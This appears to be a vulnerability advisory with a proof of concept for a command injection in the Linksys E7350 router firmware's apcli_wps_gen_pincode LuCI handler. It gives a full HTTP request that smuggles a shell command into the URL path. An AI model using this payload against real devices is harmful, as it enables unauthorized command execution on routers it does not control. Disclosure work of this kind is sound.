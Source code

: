 # Linksys E7350 Ver.1.1.00.032 Command Injection (apcli_wps_gen_pincode)

## Product Information

- Device: Linksys E7350
- Firmware Version: Ver.1.1.00.032
- Manufacturer's website information：https://www.linksys.com/
- Firmware download address ：https://support.linksys.com/kb/article/6935-cn/

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `apcli_wps_gen_pincode` function via the `ifname` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/apcli_wps_gen_pincode/arg`

![](./3.png)

## Payload

We can trigger this vulnerability by injecting the `ls>123456.txt` command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/apcli_wps_gen_pincode/;ls>123456.txt; HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=2066ce7be48fd3ba36e4135e973cd840
```

![](./4.png)

After the injection, we can verify the result.

![](./5.png)

